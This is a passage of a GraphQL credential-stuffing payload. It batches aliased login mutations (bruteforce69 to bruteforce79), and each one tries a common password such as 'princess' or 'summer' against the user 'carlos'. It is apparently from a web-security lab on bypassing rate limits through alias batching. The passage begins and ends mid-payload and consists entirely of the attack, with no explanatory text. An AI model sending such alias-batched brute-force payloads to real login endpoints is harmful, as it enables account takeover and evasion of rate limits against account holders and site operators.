 ```plain


bruteforce69:login(input:{password: "pass", username: "carlos"}) {
        token
        success
    }


bruteforce70:login(input:{password: "maggie", username: "carlos"}) {
        token
        success
    }


bruteforce71:login(input:{password: "159753", username: "carlos"}) {
        token
        success
    }


bruteforce72:login(input:{password: "aaaaaa", username: "carlos"}) {
        token
        success
    }


bruteforce73:login(input:{password: "ginger", username: "carlos"}) {
        token
        success
    }


bruteforce74:login(input:{password: "princess", username: "carlos"}) {
        token
        success
    }


bruteforce75:login(input:{password: "joshua", username: "carlos"}) {
        token
        success
    }


bruteforce76:login(input:{password: "cheese", username: "carlos"}) {
        token
        success
    }


bruteforce77:login(input:{password: "amanda", username: "carlos"}) {
        token
        success
    }


bruteforce78:login(input:{password: "summer", username: "carlos"}) {
        token
        success
    }


bruteforce79:login(input:{password: "love", username: "carlos"}) {
```